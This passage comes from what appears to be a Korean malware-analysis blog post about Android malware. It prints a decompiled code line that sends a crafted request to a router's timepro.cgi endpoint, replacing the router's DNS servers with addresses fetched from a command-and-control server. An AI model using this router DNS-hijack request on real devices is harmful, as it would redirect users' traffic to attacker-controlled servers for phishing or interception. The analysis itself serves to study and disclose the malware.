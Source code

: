 그리고 마지막 부분에 **DNS 서버를 변경하려는 Request를 생성하는데**, 해당 DNS 서버의 주소는 C2 서버에 값이 저장되어 있습니다.

```c
// DNS 서버를 변경하는 Request 생성
// v3의 값은 C2 서버에서 파싱
a.b.f(arg14 + "/cgi-bin/timepro.cgi", v1, "tmenu=iframe&smenu=hiddenwansetup&act=save&ocolor=&wan=wan1&ifname=eth1&nopassword=0&wan_type=dynamic&allow_private=on&fdns_dynamic1=" + v3.c[0] + "&fdns_dynamic2=" + v3.c[1] + "&fdns_dynamic3=" + v3.c[2] + "&fdns_dynamic4=" + v3.c[3] + "&sdns_dynamic1=" + v3.d[0] + "&sdns_dynamic2=" + v3.d[1] + "&sdns_dynamic3=" + v3.d[2] + "&sdns_dynamic4=" + v3.d[3] + "&dns_dynamic_chk=on".getBytes());
```

이렇게 외부 서비스에 저장한 정보를 파싱해 올 수 있습니다. 사진에서는 활동 란에 적힌 부분이 바꾸고자 하는 동적 DNS 서버의 주소입니다.

![1.png](/assets/2023-11-15-Android-malware-사마귀-해부학/1.png)

---
